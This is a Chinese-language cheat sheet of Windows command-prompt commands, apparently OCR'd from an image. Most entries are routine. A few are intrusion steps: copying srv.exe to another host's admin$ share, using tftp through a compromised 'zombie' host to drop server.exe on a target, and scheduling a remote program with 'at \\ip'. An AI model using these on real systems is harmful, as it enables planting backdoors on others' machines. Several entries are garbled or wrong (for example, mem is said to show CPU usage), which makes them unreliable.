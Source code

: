 del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）  
move 盘符\路径\要移动的文件名　存放移动文件的路径\移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖  
fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令  
at id号 开启已注册的某个计划任务  
at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止  
at id号 /delete 停止某个已注册的计划任务  
at 查看所有的计划任务  
at \\ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机  
finger username @host 查看最近有哪些用户登陆  
telnet ip 端口 远和登陆服务器,默认端口为23  
open ip 连接到IP（属telnet登陆后的命令）  
telnet 在本机上直接键入telnet 将进入本机的telnet  
copy 路径\文件名1　路径\文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件  
copy c:\srv.exe $">\\ip\admin$Content$nbsp;复制本地c:\srv.exe到对方的admin下  
cppy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件  
copy $\svv.exe">\\ip\admin$\svv.exe c:\ 或:copy\\ip\admin$\*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：  
xcopy 要复制的文件或目录树　目标地址\目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件  
tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:\server.exe 登陆后，将“IP”的server.exe下载到目标主机c:\server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送  
tftp -i 对方IP　put c:\server.exe 登陆后，上传本地c:\server.exe至主机  
ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)  
route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface  
arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息  
start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令  
mem 查看cpu使用情况  
attrib 文件名(目录名) 查看某文件（目录）的属性  
attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用＋则是添加为某属性  
dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间  
date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间  
set 指定环境变量名称=要指派给变量的字符 设置环境变量  
set 显示当前所有的环境变量  
set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量  
pause 暂停批处理程序，并显示出：请按任意键继续....  
if 在批处理程序中执行条件处理（更多说明见if命令及变量）  
goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）  
call 路径\批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）  
for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）  
echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置  
echo 信息 在屏幕上显示出信息  
echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中  
findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello  
find 文件名 查找某文件  
title 标题名字 更改CMD窗口标题名字  
color 颜色值 设置cmd控制台前景和背景颜色；0＝黑、1＝蓝、2＝绿、3＝浅绿、4＝红、5＝紫、6＝黄、7=白、8=灰、9=淡蓝、A＝淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白  
prompt 名称 更改cmd.exe的显示的命令提示符(把C:\、D:\统一改为：EntSky\ )  
print 文件名 打印文本文件  

ver 在DOS窗口下显示版本信息  
winver 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）  
format 盘符 /FS:类型 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS  
md　目录名 创建目录  
replace 源文件　要替换文件的目录 替换文件  
ren 原文件名　新文件名 重命名文件名  
tree 以树形结构显示出目录，用参数-f 将列出第个文件夹中文件名称  
type 文件名 显示文本文件的内容  
more 文件名 逐屏显示输出文件  
doskey 要锁定的命令＝字符  
doskey 要解锁命令= 为DOS提供的锁定命令(编辑命令行，重新调用win2k命令，并创建宏)。如：锁定dir命令：doskey dir=entsky (不能用doskey dir=dir)；解锁： 
